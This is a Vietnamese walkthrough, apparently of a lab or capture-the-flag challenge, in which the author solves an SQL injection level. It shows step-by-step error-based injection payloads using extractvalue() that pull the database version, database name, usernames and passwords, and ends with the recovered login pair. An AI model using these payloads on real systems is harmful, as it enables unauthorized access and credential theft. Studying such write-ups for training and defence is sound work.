







## Người thực hiện: Trần Ngọc Nam
## Thời gian thực hiện: 8-9/5/2022

- Đầu tiên, ta thử tiêm <code>alo'</code> để kiểm tra thông báo lỗi.
  
  

- Ta thử dùng union <code>' union select 1,2#</code>. Vẫn có thông báo lỗi xuất hiện.
  
  

- Lần này, ta sẽ sử dụng hàm extractvalue() để hỗ trợ tấn công.
- Ta dùng <code>' or extractvalue(0x0a,concat(0x0a,(select version()))) or '</code> để kiêm tra phiên bản database.
  
  

- Tiếp theo, để có được tên database ta dùng <code>' or extractvalue(0x0a,concat(0x0a,(select database()))) or '</code>.
  
  

- Vì đã biết được tên table, nên ta sẽ bỏ qua bước tìm tên table để tìm username với <code>' or extractvalue(0x0a,concat(0x0a,(select group_concat(username) from level9_users))) or '</code>.
  
  

- Tương tự cho password với <code>' or extractvalue(0x0a,concat(0x0a,(select group_concat(password) from level9_users))) or '</code>.
  
  

- Ta thử đăng nhập với username: <code>TheBlueFlower</code> và password: <code>this_oassword_is_SEC//Ure.promi!</code>.
  
  
